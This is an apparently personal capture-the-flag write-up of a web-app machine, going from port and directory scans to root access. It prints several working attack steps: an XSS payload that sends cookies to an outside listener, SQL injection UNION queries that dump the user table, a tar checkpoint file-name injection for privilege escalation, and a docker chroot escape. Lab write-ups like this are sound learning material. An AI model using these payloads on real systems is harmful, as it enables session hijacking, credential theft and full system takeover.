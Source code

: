 Started with a nmap scan
```
22 OPenSSH 7.6p1
80 nginx 1.19.2
32768 Node.js
```
Started with a nikto scan on port `80` seeing all `php and js` files
```
/robots.txt has one listing /admin/
/login/
```
Started a nikto scan on port `32768` seeing all `php and js` files
```
/robots.txt has one listing /admin/
```
Running a gobuster on port `80` looking for `php` and `js` files
```
/images 
/new
/login
/signup
/admin
/Login
/messages
/stylesheets
```
Did a nuclei scan did not find anything

If you make a account on one webserver to goes to the other one as well 
The add a new listing has a xss flaw in it `<script>alert(1)</script>` 
I did a burp enumeration on the reports did not find anymore than the ones I made and the ones that were there before
So doing the cookie stealing we did early maybe we can get the admin cookie with a php grabber script and then use there cookie and now we have the cookie for `michael` the grabber script used was `Phpcookiestealing` using this payload
	`<img src=x onerror=this.src='http://10.13.8.255:8000/index.php?cookie='+document.cookie>`
Now we can look at the user list ]
```
administrator     is not admin
michael           is admin
jake              is admin
```
There is a sqli injection on the user list page `1%27` maybe try with user id 0
	`UNION SELECT NULL,NULL,NULL,NULL--`
To get the database name `information_schema,marketplace`
	`union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -`
To get the table names `items,messages,users`
	``union select 1,group_concat(schema_name),3,4 from information_schema.tables where table_schema='marketplace'-- -``
Now to get the users table
```union select 1,group_concat(schema_name),3,4 from information_schema.tables where table_name='users'-- -```
To dump all the users and we get 3 hashes 
`union select 1,group_concat(id,':',username,':',password,':'isAdministrator,'\n')3,4 from marketplace.users-- -`
Now we cant crack these hashes so lets look at other tables so were going to look at messages 
`union select group_concat(column_name,'/n'),2,3,4 from information_schema.columns where table_name='messages'`
	`id,user_from ,user_to ,message_content, is_read`
And we get a message from the system that a SSH password is weak the new password `@b_ENXkG..........` so now we take the usernames that we know that are on the website and see if we can login
So now we need to get to the user michael we run `sudo -l` and we can run `/opt/backups/backup.sh`
so lets setup are rev shell and make a script and get the user michael to run it take are rev shell script and run these commands 
```
echo "" > "--checkpoint-action=exec=sh 1.sh"
echo "" > --checkpoint=1
rm /opt/backups/backup.tar
sudo -u michael /opt/backups/backup.sh
```
And now we got the user michael and we can see were are inside a docker and michael has access to the docker group so we can go to GTFObins and search docker and use the shell one to get root
	`docker run -v /:/mnt --rm -it alpine chroot/mnt sh`
and now we have root